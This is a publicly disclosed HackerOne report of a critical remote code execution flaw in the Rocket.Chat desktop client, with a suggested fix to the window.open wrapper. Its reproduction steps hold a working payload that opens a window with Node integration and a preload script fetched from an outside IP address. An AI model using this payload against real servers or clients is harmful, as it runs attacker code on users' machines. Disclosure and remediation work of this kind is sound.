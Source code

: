 # Remote Code Execution in Rocket.Chat-Desktop

## Report Details
- **Report ID**: 943725
- **URL**: https://hackerone.com/reports/943725
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-07-27T12:00:29.604Z
- **Disclosed**: 2020-11-07T14:40:26.343Z

## Reporter
- **Username**: sectex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rocket_chat

## Vulnerability Information
**Description:** Rocket.Chat-Desktop is vulnerable to remote code execution.
An attacker is able to create new BrowserWindow instances with a malicious preload script.

## Releases Affected:

  * Rocket.Chat-Desktop-Client: < v3.0.0-develop

## Steps To Reproduce (by setting up a malicious server):
  1. Go to `Administration » Layout » Custom Scripts » Custom Script for Logged In Users`
  1. Insert the following script:
  `window.open('data:text/html,<h1>PWNED</h1>', '', ['nodeIntegration=true', 'preload=\\\\45.155.173.235\\data\\cmd.js'].join(','))`
  1. Click `Save changes`
  1. Open Rocket.Chat-Desktop and connect to the server
  1. CMD.exe will pop up.

## Suggested mitigation

  * [`src » preload » jitsi.js`](https://github.com/RocketChat/Rocket.Chat.Electron/blob/develop/src/preload/jitsi.js)
  ```
  const wrapWindowOpen = (defaultWindowOpen) => (href, frameName, features) => {
       const settings = getSettings();

       features = ''; // <- should fix it

       if (settings && url.parse(href).host === settings.get('Jitsi_Domain')) {
         features = [
           features,
           'nodeIntegration=true',
           `preload=${ `${ remote.app.getAppPath() }/app/preload.js` }`,
         ].join(',');
       }

       return defaultWindowOpen.call(window, href, frameName, features);
  };
  ```

## Impact

Remote Code Execution in Rocket.Chat-Desktop

## Attachments
No attachments
